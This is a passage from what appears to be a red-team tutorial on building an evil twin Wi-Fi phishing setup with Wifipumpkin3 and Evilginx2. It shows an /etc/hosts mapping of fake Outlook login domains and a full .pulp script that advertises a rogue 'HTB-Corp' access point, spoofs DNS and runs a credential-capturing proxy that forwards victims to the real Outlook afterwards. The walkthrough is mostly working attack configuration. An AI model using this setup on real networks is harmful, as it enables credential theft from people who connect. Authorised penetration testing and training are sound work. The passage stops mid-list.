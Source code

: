 127.0.0.1       localhost

[..SNIP..]

# Wi-Fi Evil Twin Attacks module domain
172.16.0.1      outlook.fakedomain.com
172.16.0.1      login.fakedomain.com
172.16.0.1      account.fakedomain.com
172.16.0.1      *.fakedomain.com

[..SNIP..]
</code></pre>
<hr/>
<h3>Pulp Configuration</h3>
<p><code>Pulps</code> are automated scripts that run inside of <code>Wifipumpkin3</code> and help set it up from scratch using a singular <code>.pulp</code> file. The script syntax is simply the same as the commands we would issue manually inside of Wifipumpkin3, chained together to generate a fully programmatic environment setup experience. We can have multiple different pulps depending on the type of engagement we are preparing for, and simply instruct Wifipumpkin3 on which one to use during initialization.</p>
<p>In order for the attack cycle to be complete, we must also set up the DNS spoof attack within Wifipumpkin3, according to our DNS configuration from before, so that in the resolution process, all requests for the fake resource are linked to the address 172.16.0.1, therefore redirected to the Evilginx2 HTTP server.</p>
<p>Having configured the Evilginx2 server, we can add all of the manual Wifipumpkin3 configuration parameters to the <code>.pulp</code> file.</p>
<pre><code class="language-pulp">set interface wlan1
set ssid HTB-Corp
dhcpconf 1
set proxy phishkin3 true
set phishkin3.cloud_url_phishing https://outlook.fakedomain.com/vISVhLCE
set phishkin3.proxy_port 8080
set phishkin3.redirect_url_after_login https://outlook.live.com/mail
set phishkin3.allow_user_login_endpoint /verify
use spoof.dns_spoof
add login.fakedomain.com
add account.fakedomain.com
add outlook.fakedomain.com
add *.fakedomain.com
set redirectTo 172.16.0.1
start
back
start
</code></pre>
<ul>
<li>
<code>interface</code> - Select the WLAN interface as output in the <code>ifconfig</code> output.</li>
<li>
<code>ssid</code> - Select the preferred network AP name to be advertised to the victim.</li>
<li>
<code>phishkin3.cloud_url_phishing</code> - Input the randomly generated ID as seen in the <code>lures &gt; path</code> column in Evilginx2.</li>
<li>
<code>phishkin3.redirect_url_after_login</code> - Input the real resource the user would expecting to access after login.</li>
<li>
<code>phishkin3.allow_user_login_endpoint</code> - Input the same page name as seen in the <code>lures &gt; redirect_url</code> column in Evilginx2.</li>
<li>Make sure to add all the subdomains configured in <code>/etc/hosts</code> under the <code>spoof.dns_spoof</code> service.</li>
<li>